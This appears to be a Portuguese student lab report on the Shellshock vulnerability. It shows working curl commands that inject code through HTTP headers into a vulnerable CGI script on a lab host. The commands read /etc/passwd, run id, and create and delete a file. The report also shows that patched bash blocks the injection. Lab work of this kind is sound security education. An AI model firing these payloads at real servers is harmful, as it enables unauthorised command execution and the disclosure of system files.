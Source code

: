 # 3

O objectivo desta tarefa consiste em obter informação ou fazer alterações na estrutura de ficheiros do container utilizando o curl e explorando a vulnerabilidade shellshock. Com o curl é efetuado um pedido HTTP a um script que utiliza uma versão do bash vulnerável e onde o código a executar é injetado num header HTTP. Foram utilizados três headers diferentes para realizar esta tarefa, associados às seguintes flags do curl:
 * -A - User-Agent
 * -e - Referrer
 * -H - Header explícito (o utilizado foi o Accept)
 
No header basta escrever a expressão '() { :;};' para declarar uma função vazia e permitir a execução de código no container. Nos casos onde existe output é necessário também adicionar 'echo Content-type: text/plain;' para este ser visível na resposta ao pedido.

A

```
curl -A "() { :;}; echo Content-Type: text/plain; echo; echo; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

B

```
curl -H 'Accept: () { :;}; echo Content-type: text/plain; echo; /bin/id;' http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![A and B output](Screenshots/3ab_output.png)

C

```
curl -e '() { :;}; echo Content-type: text/plain; echo; /bin/touch /tmp/virus.txt;' http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

D

```
curl -A '() { :;}; echo Content-type: text/plain; echo; /bin/rm /tmp/virus.txt;' http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![C and D output](Screenshots/3cd_output.png)

## Questions
### 1
Não pois o ficheiro /etc/shadow, que não é visível a terceiros, é owned pelo root e pertence ao grupo shadow, enquanto que o servidor executa no utilizador www-data que apenas pertence ao grupo do mesmo nome, não possuindo portanto permissões para o visualizar.

![Shadow Permissions and www-data groups](Screenshots/3q1.png)

### 2
Não pois os dados a injetar possuem espaços, algo que torna um URL inválido.

![Question 2 output](Screenshots/3q2.png)


# 5

Foi criado um script CGI que utiliza uma versão do bash onde a vulnerabilidade foi mitigada com o nome de patched.cgi que apenas faz echo da string 'I'm Patched!'.

![Task 5 Output](Screenshots/5.png)

Como observado, nenhum dos comandos injetados nos headers HTTP foi executado e o script executou como esperado, o que mostra que de facto a vulnerabilidade shellshock foi corrigida nesta versão.

